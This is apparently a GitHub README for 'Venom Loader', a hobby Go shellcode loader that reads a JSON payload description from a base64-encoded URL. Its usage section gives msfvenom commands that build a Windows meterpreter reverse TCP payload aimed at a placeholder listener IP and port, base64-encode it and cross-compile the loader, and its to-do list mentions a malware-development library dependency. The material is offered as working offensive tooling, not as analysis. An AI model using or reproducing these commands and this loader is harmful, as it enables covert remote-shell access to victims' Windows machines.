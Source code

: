 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples
Modify the main.go and instr file to suit your situation before doing any of the below.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
export GOOS=windows;export GOARCH=amd64 #Only if compiling on linux for windows
go build
```
At this point the loader as well as a basic payload should be ready.




## To-Do

- Make a builder script that simplifys creation of the JSON and binary. Current one is bricked. Rewrite in python.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
- Come up with a better name for the damned thing.
